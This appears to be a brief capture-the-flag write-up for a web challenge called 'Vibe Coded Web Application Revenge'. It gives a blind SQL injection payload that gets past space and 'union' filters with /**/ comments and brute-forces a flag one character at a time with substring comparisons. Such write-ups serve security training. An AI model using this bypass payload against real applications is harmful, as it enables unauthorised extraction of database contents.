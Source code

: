 # Vibe Coded Web Application Revenge

Challenge Author: yappare

## Solution

"union" and spaces are filtered.
You can bypass spaces requirements with `/**/`.

```
test%'/**/AND/**/substring((SELECT/**/flag/**/FROM/**/secret_flags/**/LIMIT/**/1),1,1)='<brute-characters'/**/OR/**/'1'='1--%
```

Solution script in solve.py
